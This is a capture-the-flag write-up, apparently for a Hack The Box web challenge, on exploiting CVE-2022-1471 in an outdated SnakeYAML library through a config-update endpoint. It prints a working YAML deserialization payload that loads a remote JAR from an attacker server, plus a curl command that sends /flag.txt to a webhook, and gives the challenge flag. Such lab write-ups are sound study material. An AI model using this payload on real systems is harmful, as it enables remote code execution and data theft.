



# Watersnake
> As the United Nations of Zenium and the Board of Arodor engage in a fierce competition to establish a colony on Mars using Vitalium. State hackers from UNZ identify an exposed instance of the critical facility water management software, Watersnakev3, in one of Arodor's main water treatment plants. The objective is to gain control over the water supply, and weaken the Arodor's infrastructure.

## About the Challenge
We have been given a source code (You can download the source code [here](web_watersnake.zip)). Here is the preview of the website



And also there is another functionality where we can submit our own YAML configuration


## How to Solve?
If we check the the `Controller.java` code especially a function called `update()`

```java
import org.yaml.snakeyaml.Yaml;
...
...
@PostMapping("/update")
	public String update(@RequestParam(name = "config") String updateConfig) {
       	InputStream is = new ByteArrayInputStream(updateConfig.getBytes());
      
       	Yaml yaml = new Yaml();

	    Map<String, Object> obj = yaml.load(is);

		obj.forEach((key, value) -> System.out.println(key + ":" + value));

		return "Config queued for firmware update";
	}
}
```

You will see this program using `snakeyaml`. And the packages is outdated if we check the version in `pom.xml` file


snakeyaml is vulenrable to CVE-2022-1471. So, to exploit this website using CVE-2022-1471, we can use this GitHub [repository](https://github.com/artsploit/yaml-payload/)



Don't forget to change the payload into the blow code because we can't use reverse shell payload (idk why). So, in this case i just send the content of `flag.txt` into webhook

```
curl -F password=@/flag.txt webhook.site/xxxxxxx
```

And then input this in the YAML form

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://your-server/yaml-payload.jar"]
  ]]
]
```

Check the webhook again and you will see a request from the website


And then download the `flag` file



```
HTB{r1d3_th3_sn4k3}
```